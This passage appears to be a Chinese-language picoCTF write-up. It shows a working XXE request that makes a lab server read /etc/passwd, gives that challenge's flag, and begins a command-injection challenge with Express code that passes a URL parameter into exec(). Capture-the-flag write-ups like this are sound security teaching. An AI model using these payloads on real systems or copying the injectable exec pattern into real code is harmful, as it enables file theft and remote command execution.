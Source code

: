 ```xml=
POST /data HTTP/1.1
Host: saturn.picoctf.net:49309
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36
Accept: */*
Referer: http://saturn.picoctf.net:49309/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Length: 135

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file://etc/passwd">
]>
<data><ID>&file;</ID></data>

```

+ Inject code
```xml=
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
    <!ENTITY file SYSTEM “file:///etc/passwd” >
]>
<data>
    <ID>
        &file;
    </ID>
</data>

```

+ `<!DOCTYPE data [<!ENTITY file SYSTEM “file:///etc/passwd” >]>` : 定義了一個名為 "file" 的實體，其內容是 /etc/passwd 文件的內容。
+ `<data><ID>&file;</ID></data>` : 引用file實體，將其插入到XML文檔的相應部分。


`Flag` : picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}
`REF` : https://github.com/DanArmor/picoCTF-2023-writeup/blob/main/Web%20Exploitation/SOAP/SOAP.md
https://hackmd.io/@5hErry/HJUMum0kh


caas 
--
`command injection`

+ `index.js`
```javascript=
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
    // it exec the message
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```